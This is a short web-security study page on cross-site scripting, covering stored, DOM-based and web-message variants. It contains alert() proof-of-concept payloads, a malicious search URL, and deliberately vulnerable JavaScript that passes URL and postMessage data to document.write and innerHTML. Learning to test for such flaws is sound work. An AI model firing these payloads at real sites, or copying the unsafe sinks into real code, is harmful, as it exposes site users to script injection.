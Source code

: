 
## Stored XSS

The malicious script comes from the website's database. POST body example:&#x20;

```sh
comment=<script>alert(document.domain)</script>
```

---

## DOM-based XSS

The vulnerability exists in client-side code rather than server-side code.

```html
<script>
function trackSearch(query) {
  document.write('<img src="/resources/images/tracker.gif?searchTerms='+query+'">');
}
var query = (new URLSearchParams(window.location.search)).get('search');
if(query) {
  trackSearch(query);
}
</script>
```

```sh
# Get request 
https://insecure-website.com/index?search="><script>alert(document.domain)</script>
```

**Methodology**

1. Look for any script that has a sinks
2. See if you can control the sink
3. Exploit it

> **Notes**:
> 1.  Here there are some sources and sinks
> 
>     https://github.com/wisec/domxsswiki/wiki
> 
>     https://portswigger.net/web-security/cross-site-scripting/dom-based#which-sinks-can-lead-to-dom-xss-vulnerabilities
> 2. DOM Invader (Burp Suite tool) is a browser-based tool that helps you test for DOM XSS vulnerabilities using a variety of sources and sinks.


### DOM-based web message

```html
<!-- Vulnerable website -->
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('test').innerHTML = e.data;
    })
</script>
```
